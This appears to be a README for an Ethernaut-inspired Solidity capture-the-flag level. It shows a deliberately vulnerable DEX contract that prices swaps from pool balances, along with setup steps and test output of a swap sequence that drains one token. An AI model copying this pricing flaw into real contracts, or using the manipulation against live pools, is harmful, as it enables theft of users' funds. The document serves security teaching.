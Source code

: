 # Solidity Game - DEX Attack

_Inspired by OpenZeppelin's [Ethernaut](https://ethernaut.openzeppelin.com), Dex Level_

⚠️Do not try on mainnet!

## Task

The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation.

You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.

You will be successful in this game if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

**Quick note**

Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.

_Hint:_

1. How is the price of the token calculated?
2. How does the `swap` method work?
3. How do you `approve` a transaction of an ERC20?

## What will you learn?

1. ERC20
2. SWAP

## What is the most difficult challenge?

### DEX 🤑

The idea of this game is that flash loan attacks are rampant in the DeFi world, and having some experience with some of the price issues is going to be a must for up and coming solidity developers.

Basically, the Dex is a really crappy uniswap. It reports a price based on liquidity pools, and a user can use this to flip back and forth and eventually drain the dex of the liquidity pools.

## Source Code

⚠️This contract contains a bug or risk. Do not use on mainnet!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.4 <0.9.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Dex {
  using SafeMath for uint256;
  address public token1;
  address public token2;

  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(
    address from,
    address to,
    uint256 amount
  ) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint256 amount) public {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(
    address from,
    address to,
    uint256 amount
  ) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint256 amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint256) {
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(
    string memory name,
    string memory symbol,
    uint256 initialSupply
  ) public ERC20(name, symbol) {
    _mint(msg.sender, initialSupply);
  }
}

```

## Configuration

### Install Truffle cli

_Skip if you have already installed._

```
npm install -g truffle
```

### Install Dependencies

```
yarn install
```

## Test and Attack!💥

### Run Tests

```
truffle develop
test
```

```
truffle(develop)> test
Using network 'develop'.


Compiling your contracts...
===========================
> Everything is up to date, there is nothing to compile.



  Contract: Hacker
    √ should check game state (482ms)
Start price manipulating...
Swap price: TKN2 -> TKN1 - 10
Balances: TKN1/DEX - 90, TKN2/DEX - 110, TKN1/HACKER - 20, TKN2/HACKER - 0
Swap price: TKN1 -> TKN2 - 24
Balances: TKN1/DEX - 110, TKN2/DEX - 86, TKN1/HACKER - 0, TKN2/HACKER - 24
Swap price: TKN2 -> TKN1 - 30
Balances: TKN1/DEX - 80, TKN2/DEX - 110, TKN1/HACKER - 30, TKN2/HACKER - 0
Swap price: TKN1 -> TKN2 - 41
Balances: TKN1/DEX - 110, TKN2/DEX - 69, TKN1/HACKER - 0, TKN2/HACKER - 41
Swap price: TKN2 -> TKN1 - 65
Balances: TKN1/DEX - 45, TKN2/DEX - 110, TKN1/HACKER - 65, TKN2/HACKER - 0
Swap price: TKN1 -> TKN2 - 110
Balances: TKN1/DEX - 90, TKN2/DEX - 0, TKN1/HACKER - 20, TKN2/HACKER - 110
    √ should drain the dex (8265ms)


  2 passing (9s)

```
